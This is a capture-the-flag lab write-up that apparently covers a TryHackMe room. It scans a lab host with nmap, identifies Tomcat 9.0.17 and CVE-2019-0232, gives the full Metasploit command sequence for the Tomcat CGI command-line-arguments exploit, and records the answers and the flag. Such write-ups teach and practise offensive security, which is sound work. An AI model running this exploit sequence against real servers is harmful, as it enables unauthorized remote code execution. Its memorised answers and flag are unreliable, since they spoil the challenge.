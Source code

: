 ```yaml
---
description: Networking - Metasploit
---
```


# Ready, set, elf.

## Video

{% embed url="https://www.youtube.com/watch?v=6DOp2Fn1AsQ&feature=emb_logo" %}

## Resources

`systeminfo`

[URL encoded](https://www.techopedia.com/definition/10346/url-encoding)

## Challenge

### What is the version number of the web server?

```
nmap -Pn -sC -sV -O -v 10.10.198.75
```

![](<../.gitbook/assets/image (77).png>)

![](<../.gitbook/assets/image (78).png>)

{% hint style="success" %}
9.0.17
{% endhint %}

### &#x20;What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)

![](<../.gitbook/assets/image (79).png>)

![](<../.gitbook/assets/image (80).png>)

{% hint style="success" %}
CVE-2019-0232
{% endhint %}

### Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

![](<../.gitbook/assets/image (84).png>)

```
msfconsole
search 2019-0232
use exploit/windows/http/tomcat_cgi_cmdlineargs
show targets
set TARGET 0
show options
set RHOST 10.10.198.75
set targeturi /cgi-bin/elfwhacker.bat
exploit
```

{% hint style="success" %}
**`No answer needed`**
{% endhint %}

### What are the contents of flag1.txt

![](<../.gitbook/assets/image (82).png>)

![](<../.gitbook/assets/image (83).png>)

{% hint style="success" %}
thm{whacking\_all\_the\_elves}
{% endhint %}

### Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

{% hint style="success" %}
**`No answer needed`**
{% endhint %}
